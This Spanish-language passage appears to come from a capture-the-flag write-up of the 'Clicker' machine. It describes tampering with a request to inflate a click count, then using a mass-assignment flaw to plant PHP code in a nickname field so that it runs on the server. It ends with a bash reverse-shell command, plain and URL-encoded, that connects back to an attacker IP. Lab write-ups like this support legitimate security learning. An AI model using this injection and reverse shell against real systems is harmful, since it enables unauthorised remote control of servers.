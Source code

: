 Sin embargo, el principal obstáculo radica en que el contenido del archivo generado siempre es el mismo. Por lo tanto, una posible estrategia consiste en lograr que nuestro usuario aparezca en la tabla de jugadores, inyectando código malicioso en alguno de los campos conocidos.

<div style="text-align: center;">
		<img src="/assets/images/Clicker/playersTable.jpg" alt="Clicker-webFilesBackup" width="1000" oncontextmenu="return false;" />
</div>
<br>
En el panel **play.php**, se intercepta la petición y se modifica el valor de **clicks** a **95.000.000**, permitiendo que la cuenta aparezca en la tabla de jugadores destacados. Adicionalmente, se explota la vulnerabilidad de **asignación masiva**, editando el campo **nickname** con código malicioso en **PHP**.

<div style="text-align: center;">
		<img src="/assets/images/Clicker/codeInjection.jpg" alt="Clicker-webFilesBackup" width="1000" oncontextmenu="return false;" />
</div>
<br>
Al revisar nuevamente la tabla, el nickname del usuario no aparece reflejado. No obstante, al generar un archivo en formato PHP y ejecutarlo, se evidencia que el código inyectado es interpretado por el backend, permitiendo la ejecución de comandos con el objetivo de establecer una **reverse shell**.

<div style="text-align: center;">
		<img src="/assets/images/Clicker/rce.jpg" alt="Clicker-webFilesBackup" width="1000" oncontextmenu="return false;" />
</div>
<br>
Para obtener una reverse shell, se ejecuta el siguiente comando. Es importante asegurarse de que todos los caracteres especiales sean codificados en **URL ENCODE**.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.116/4444 0>&1'

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.116/4444+0>%261'
```

